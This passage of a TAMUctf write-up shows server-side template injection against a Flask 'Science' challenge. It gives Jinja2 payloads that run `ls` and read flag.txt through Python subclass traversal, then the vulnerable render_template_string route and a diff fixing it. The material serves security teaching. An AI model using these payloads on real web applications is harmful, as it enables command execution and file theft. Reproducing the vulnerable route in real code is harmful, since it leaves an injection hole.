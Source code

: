 No dice. Then, let's try listing files with `{{config['RUNCMD']('ls')}}`.

{{% blockquote %}}
It seems like they plugged the `RUNCMD` hole after I solved the challenge. The
final payload still works, but you would have to figure out which file to read
in some other way.
{{% /blockquote %}}

```
The result of combining config.py entry.sh flag.txt requirements.txt serve.py tamuctf and S is:
```

Alright, let's read the flag with `{{''.__class__.__mro__[2].__subclasses__()[40]('flag.txt').read()}}`.

```
The result of combining gigem{5h3_bl1nd3d_m3_w17h_5c13nc3} and S is:
```

- flag: `gigem{5h3_bl1nd3d_m3_w17h_5c13nc3}`

## Science
**Category**: Secure Coding

{{% blockquote %}}
https://gitlab.tamuctf.com/root/science
{{% /blockquote %}}

This repo contains the source code for the Science challenge. We're interested
in the [tamuctf/views.py](science/views.py) file, which contains the vulnerable
route.

```python
@app.route('/science', methods=['POST'])
def science():
    try:
        chem1 = request.form['chem1']
        chem2 = request.form['chem2']
        template = '''<html>
        <div style="text-align:center">
        <h3>The result of combining {} and {} is:</h3></br>
        <iframe src="https://giphy.com/embed/AQ2tIhLp4cBa" width="468" height="480" frameBorder="0" class="giphy-embed" allowFullScreen></iframe></div>
        </html>'''.format(chem1, chem2)

        return render_template_string(template, dir=dir, help=help, locals=locals)
    except:
        return "Something went wrong"
```

The vulnerability lies in the fact that `render_template_string` is called on
untrusted inputs. Since the chemical names are already inlined by string
formatting, we don't need that call at all.

```diff
diff --git a/tamuctf/views.py b/tamuctf/views.py
index 33848ca..c5bbef6 100644
--- a/tamuctf/views.py
+++ b/tamuctf/views.py
@@ -21,7 +21,7 @@ def science():
         <iframe src="https://giphy.com/embed/AQ2tIhLp4cBa" width="468" height="480" frameBorder="0" class="giphy-embed" allowFullScreen></iframe></div>
         </html>'''.format(chem1, chem2)
 
-        return render_template_string(template, dir=dir, help=help, locals=locals)
+        return template
     except:
         return "Something went wrong"

```